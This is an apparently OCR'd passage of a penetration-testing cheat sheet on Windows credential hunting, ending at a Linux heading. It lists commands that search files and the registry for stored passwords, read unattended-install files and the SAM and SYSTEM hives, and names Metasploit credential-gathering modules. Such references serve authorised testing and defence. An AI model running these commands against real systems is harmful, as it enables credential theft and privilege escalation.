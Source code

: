         -   findstr /si password \*.xml

        -   findstr /si password \*.ini

        -   Unattended installs

            -   In the process of automating different tasks, system administrators often knowingly or unknowingly write clear-text passwords in files or in the registry of accounts, which are used for authenticating to different services.

            -   One example is that when administrators want to deploy images on a large number of devices without user interaction (called unattended installations) they use the Windows Deployment Services. However, this requires that the local system administrator's password or other, privileged account passwords are stored in one or more of the following locations:

            -   type c:\\sysprep.inf

            -   type c:\\sysprep\\sysprep.xml

            -   type c:\\unattend.xml

            -   type %WINDIR%\\Panther\\Unattend\\Unattended.xml

            -   type %WINDIR%\\Panther\\Unattended.xml

        -   Search in registry

            -   reg query HKLM /f password /t REG\_SZ /s

            -   reg query HKCU /f password /t REG\_SZ /s

            -   reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\Currentversion\\Winlogon\"

            -   reg query \"HKCU\\Software\\ORL\\WinVNC3\\Password\" \# VNC credentials

            -   reg query \"HKLM\\SYSTEM\\Current\\ControlSet\\Services\\SNMP\" \# SNMP Parameters

            -   reg query \"HKCU\\Software\\SimonTatham\\PuTTY\\Sessions\" \# Putty proxy creds

            -   reg query \"HKCU\\Software\\ORL\\WinVNC3\\Password\" \# VNC credentials

      
        -   Sam file location (if accessable)

            -   type %SYSTEMROOT%\\repair\\SAM
            
            -   type %SYSTEMROOT%\\System32\\config\\RegBack\\SAM
            
            -   type %SYSTEMROOT%\\System32\\config\\SAM
            
            -   type %SYSTEMROOT%\\repair\\system
            
            -   type %SYSTEMROOT%\\System32\\config\\SYSTEM
            
            -   type %SYSTEMROOT%\\System32\\config\\RegBack\\system

        -   Metasploit

            -   post/windows/gather/credentials/gpp

            -   post/windows/gather/enum\_unattend


    -   **Linux**
